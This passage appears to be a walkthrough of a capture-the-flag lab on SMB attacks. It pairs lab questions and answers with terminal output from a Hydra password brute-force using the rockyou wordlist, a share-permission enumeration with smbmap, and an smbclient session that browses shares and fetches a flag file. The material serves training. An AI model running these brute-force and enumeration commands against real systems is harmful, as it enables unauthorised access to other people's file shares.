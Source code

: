 ```
root@attackdefense:~# hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.38.66.3 smb
Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-10-25 10:38:30
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 14344399 login tries (l:1/p:14344399), ~14344399 tries per task
[DATA] attacking smb://192.38.66.3:445/
[445][smb] host: 192.38.66.3   login: admin   password: password1
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-10-25 10:38:32
```

Which share is read only? Use smbmap with credentials obtained in question 2.

`nancy`

```
root@attackdefense:~# smbmap -H 192.38.66.3 -u admin -p password1
[+] Finding open SMB ports....
[+] User SMB session establishd on 192.38.66.3...
[+] IP: 192.38.66.3:445 Name: target-1                                          
        Disk                                                    Permissions
        ----                                                    -----------
        shawn                                                   READ, WRITE
        nancy                                                   READ ONLY
        admin                                                   READ, WRITE
        IPC$                                                    NO ACCESS
```

Is share “jane” browseable? Use credentials obtained from the 1st question.

`Yes`

```
root@attackdefense:~# smbclient //192.38.66.3/jane -U jane
Enter WORKGROUP\jane's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Tue Nov 27 19:25:12 2018
  ..                                  D        0  Tue Nov 27 19:25:12 2018
  logs                                D        0  Tue Nov 27 19:25:12 2018
  flag                                D        0  Tue Nov 27 19:25:12 2018
  admin                               D        0  Tue Nov 27 19:25:12 2018

                1981084628 blocks of size 1024. 63976192 blocks available
smb: \> cd logs
smb: \logs\> dir
  .                                   D        0  Tue Nov 27 19:25:12 2018
  ..                                  D        0  Tue Nov 27 19:25:12 2018

                1981084628 blocks of size 1024. 63976244 blocks available
smb: \logs\> cd ..
smb: \> cd flag
smb: \flag\> dir
  .                                   D        0  Tue Nov 27 19:25:12 2018
  ..                                  D        0  Tue Nov 27 19:25:12 2018
  flag                                N       33  Tue Nov 27 19:25:12 2018

                1981084628 blocks of size 1024. 63976188 blocks available
smb: \flag\> get flag
getting file \flag\flag of size 33 as flag (32.2 KiloBytes/sec) (average 32.2 KiloBytes/sec)
smb: \flag\> cd ..
smb: \> cd admin
smb: \admin\> dir
```